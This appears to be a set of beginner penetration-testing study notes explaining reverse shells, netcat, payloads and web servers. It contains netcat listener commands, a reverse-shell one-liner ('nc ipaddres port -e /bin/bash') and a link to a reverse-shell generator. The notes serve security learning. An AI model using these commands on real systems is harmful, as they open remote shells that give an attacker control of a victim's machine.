 - A reverse shell, also known as a remote shell or “connect-back shell,” takes advantage of the target system's vulnerabilities to initiate a shell session and then access the victim's computer.
- Reverse shells allow attackers to open ports to the target machines, forcing communication and enabling a complete takeover of the target machine.
- Therefore it is a severe security threat.
- This method is also commonly used in penetration tests.
- On reverse shells, the attacker will listen for any request on specific port, and the victim will start the request on that port, so we will have a shell. the victim may not sending the request intentionally. But if the attacker send him a link/malware that can start the reverse request that can leads to reverse shell.
- The Malware/Link in this case is called **Payload**.

## Netcat/nc

- **Netcat** is a Command-line Interface (CLI) Based tool that is use to read/write data over TCP/UDP, Used:
    - To listen on ports,
    - To create connection on ports we can use this tool.
- It is a Back-End tool which can smoothly be cross utilized by other programs
- Used to Create a connection with any protocol/port you want or to create a listener on any port
- It is a tool That helps to create **Reverse shells** or **Bind shells**.
- commands
    - "netcat -lvp 2222"
    - "netcat -nlvp 5555"
        -l : Listen
        -v: verbose
        -p: port
        -n: No-DNS resolution

## Payloads

- **Payload** refers to the *code or commands* that are delivered and executed on a target system to perform a specific action, like gaining control, stealing information, or damaging data.
- In simpler terms, it's the part of an exploit that carries out the attacker's intent after a vulnerability has been exploited.
- Payloads can be In Many formats and Programming languages.
    - You can use https://www.revshells.com/ site to generate Bind / Reverse shell commands.
- On the victim i called the attacker IP on that specific port
- This is Where we use payloads.
- The Command You see on the Screen is an example of a Payload.

```bash
nc ipaddres port -e /bin/bash
```

## Web servers

- On the hardware side, a web server is a computer that stores web server software and a website's component files (for example, HTML documents, images, CSS stylesheets, and JavaScript files).
- A web server connects to the Internet and supports physical data interchange with other devices connected to the web.
- **Web Server Software** is a computer software that uses *HTTP* and *HTTPS* to provide a website.(port 80,443)
- There are a lot of software that can be installed on the server to work like web server
- servers are just computers. So to be specific and talk about web server, we have to install some web things.
